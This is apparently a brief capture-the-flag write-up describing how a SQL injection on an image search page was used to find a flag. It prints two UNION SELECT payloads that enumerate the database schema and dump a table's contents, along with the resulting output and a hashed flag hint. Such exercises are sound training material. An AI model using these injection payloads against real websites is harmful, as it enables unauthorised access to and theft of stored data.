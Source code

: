# How I found it

There is Injection sql In Search Image page so i use this query to get all tables

`1 UNION SELECT table_name, column_name FROM information_schema.columns`

i found a table call list_images i get all informations in this table and i found the flag in the id : 5 by

`1 UNION SELECT id, comment FROM list_images`

### Result

````
ID: 1 UNION SELECT id, comment FROM list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 5
````
